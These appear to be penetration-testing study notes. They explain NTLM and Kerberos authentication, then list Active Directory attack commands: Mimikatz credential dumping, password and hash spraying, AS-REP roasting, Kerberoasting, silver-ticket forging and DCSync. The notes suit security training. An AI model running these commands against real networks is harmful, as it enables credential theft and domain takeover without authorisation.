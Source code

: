 ```yaml
---
layout: blank
pagetitle: Active Directory Authentication Exploitation
---
```


### Understanding Authentication

**NTLM**
- Used when authenticating via IP address (not hostname) or a hostname not present on the AD DNS server
- Steps are:
	- Calculate NTLM Hash
	- Send username to application server
	- App server sends nonce
	- Client encrypts nonce using their hash and sends both to app server
	- App server sends client response, username, and nonce to the DC (user's hash unknown)
	- DC encrypts nonce with NTLM hash (already known) of the user and compares to response
	- If valid, DC approves authentication

**Kerberos**
- Adopted from Kerberos v5 from MIT, used as primary auth method since 2003
- Uses a ticket system, DC acts as a Key Distribution Center (KDC)
- Rather than authenticating against the application, clients get a ticket from the KDC
- Steps:
	- Client sends Authentication Server Request (AS-REQ) to the DC
		- This contains a timestamp encrypted using the hash derived from the user's username and password
	- DC receives request and looks up the password hash of the user in the `ntds.dit` file, using it to decrypt the timestamp
	- If the decryption is successful and the timestamp is unique, auth is granted
	- DC then sends client an Authentication Server Reply (AS-REP), containing a session key and a ticket-granting ticket (TGT)
		- Session key can be decrypted with user hash and reused
		- TGT contains user and domain info, IP address of client, timestamp, and a session key
			- The TGT is encrypted using the NTLM hash of the krbtgt user
			- TGT is valid for 10 hours by default and is automatically renewed while session remains active
	- Client constructs a Ticket-Granting Service Request (TGS-REQ) consisting of the current user and timestamp encrypted with the session key, resource name, and encrypted TGT and sends that back to the DC/KDC
	- The DC then ensures the resource exists and decrypts the TGT with its secret key and extracts the session key for the username and timestamp of the request
	- The KDC then performs the following checks:
		- The TGT has a valid timestamp
		- The username from the TGS-REQ matches the username of the TGT
		- The client IP address coincides with the TGT IP address
	- If those checks pass, the KDC responds with a Ticket-Granting Server Reply (TGS-REP), containing three parts:
		- Name of the service access granted for
		- 2nd session key to be used between the client and service
		- Service ticket containing the username, group memberships, and 2nd session key
	- Now that the client has a session key and a service ticket, it sends the application an Application Request (AP-REQ) including the username/timestamp encrypted with the service ticket session key and the ticket itself
	- The application server decrypts the service ticket using its account password hash, extracting the username/session key, using the session key to decrypt the username from the AP-REQ. If they match, the service assigns the appropriate permissions to the user based on the group memberships in the ticket, and access is granted

**Cached Credentials**
- Password hashes stored in Local Security Authority Subsystem Service (LSASS)
- Basically just use Mimikatz as before
	- `privilege::debug` gives us the `SeDebugPrivilege` to run below commands
	- `token::elevate` to elevate to SYSTEM user
	- `lsadump::sam` will dump NTLM hashes of local users
	- `sekurlsa::logonpasswords` will look for clear-text passwords, dump NTLM hashes (including domain users), and dump Kerberos tickets
	- `sekurlsa::tickets` will show tickets stored in memory
		- We want to steal TGT more than a TGS for overall service access (rather than just one)
- Public Key Infrastructure (PKI)
	- Part of the Active Directory Certificate Service (AD CS), which implements PKI to exchange digital certs between authenticated users and trusted resources
	- Certificate Authority (CA) servers can grant/revoke certificates
		- The private keys used are usually non-exportable, but Mimikatz's `crypto::capi` and `crypto::cng` can take care of that

### AD Password Attacks

**Password Spraying**
- Avoiding lockout - `net accounts` will show authentication lockout information
- Using [script enumeration](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/modules/Spray-Passwords.ps1) 
	- `.\Spray-Passwords.ps1 -Pass Nexus123! -Admin`
- SMB password spraying
	- Use `crackmapexec`
		- `crackmapexec smb {IP_with_smb} -u users.txt -p passwords.txt -d {domain} --continue-on-success`
			- Can also pass single username/password
		- This sprays passwords against a single IP's SMB share
		- This will also show whether the user is an administrator
	- SMB hash spraying
		- `crackmapexec smb {IP} -u {users.txt} -H {hashes.txt}`
	- Crackmapexec can also run comands via SMB:
		- `nxc smb {IP} -u {username} -p {password} -X 'powershell -e ...`
- Obtaining TGTs
	- Use [kerbrute](https://github.com/ropnop/kerbrute/releases/) - `.\kerbrute_windows_amd64.exe passwordspray -d {domain} .\usernames.txt "{password}"`
	- AS-REP Roasting without credentials, described below
- WinRM
	- Indicated by port 5985/5986
	- `evil-winrm -i {IP} -u {domain_user} -p {password}`
	- Also accepts NTLM hashes `evil-winrm -i {IP} -u {user} -H {hash}`
- RPC:
	- Indicated by port 135,593
	- Can get an RPC shell with `rpcclient -U {username} {IP}`
		- `enumdomusers` can get the domain users from within RPC, which we can then check again for preauth
		- `queryuser {username}` to get user properties (passwords could be in descriptions)
			- Can also just `querydispinfo`

**AS-REP Roasting**
- Requires that Kerberos preauth is disabled, which prevents sending an AS-REQ on behalf of any user
- Performing hash cracking after receiving the AS-REP from the KDC
- Performed with `impacket-GetNPUsers` on kali side
	- `impacket-GetNPUsers -dc-ip {dc} -request -outputfile hashes.asreproast {domain}/{username}` (alongside password)
		- With users.txt: `impacket-GetNPUsers {domain}/ -no-pass -usersfile users.txt -dc-ip {IP} | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN'`
	- Hashes can be cracked with Hashcat's 18200
- Performed with [`Rubeus`](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries) on Windows side
	- `.\Rubeus.exe asreproast /nowrap`
- This can also be done without a password to find users who don't have Kerberos pre-auth
	- `impacket-GetNPUsers -dc-ip {IP} {domain}/`
	- These users don't require a password to grab the TGT hash

**Kerberoasting**
- Cracking the password of the service account by using the encrypted SPN password hash used on the service ticket
- Can use `impacket-GetUserSPNs` if remote with creds
	- `impacket-GetUserSPNs {domain}/{user}:{password} -dc-ip {IP} -request`
- Can use `Rubeus` again if local
	- `.\Rubeus.exe kerberoast /outfile:hash.txt`
- Can crack with Hashcat's 13100 mode

**Silver Tickets**
- Forging our own service tickets via a password hash that should only be known to the DC and service account
	- Basically forging a ticket using a hash that tells the service we have more permissions than we actually do
	- This requires that Privileged Account Certificate (PAC) be disabled, which it often is
- To create the ticket, we need:
	- SPN password hash - can use `sekurlsa::logonpasswords` on machine with established session with application (usually(?) current machine)
	- Domain SID - `whoami /user` minus the last number (user RID)
	- Target SPN - basically just the DNS host name and the protocol (like HTTP)
- Performed using `mimikatz`
	- Don't escalate privileges to `NT Authority\System`
	- `kerberos::golden /sid:{sid} /domain:{domain} /ptt /target:{dnshostname} /service:{service_protocol(http)} /rc4:{NTLM_hash} /user:{any_domain_user}`
		- `ptt` allows us to inject forged ticket into memory of target machine
- Then, we should be able to access the service with the following:
	- `iwr -UseDefaultCredentials {protocol}://{dnshostname}`

**Domain Controller Synchronization**
- Sometimes multiple DCs across an environment for redundancy
- These DCs use Directory Replication Service (DRS) to synchronize
- DCs receiving requests for updates don't check if the request came from a known DC and only verify that the SID has the correct privileges
	- This means that we just need a user with the correct privileges
	- *Required*: Replicating Directory Changes, Replicating Directory Changes All, Replicating Directory Changes in Filtered Set 
		- Owned by Domain Admins, Enterprise Admins, and Administrators by default
- If we have `WriteDACL` on the domain via a group, we can give ourselves the necessary permissions
- Performed with `mimikatz` on domain-joined machine or `impacket-secretsdump` on kali
	- This gives us a way to get the hash of any domain user
	- `lsadump::dcsync /user:{domain}\{user}` 
- Can also be performed with `impacket-secretsdump`
	- `impacket-secretsdump -just-dc-user {target_domain_user} {domain}/{admin_username}:"{password}"@{DC_IP}`
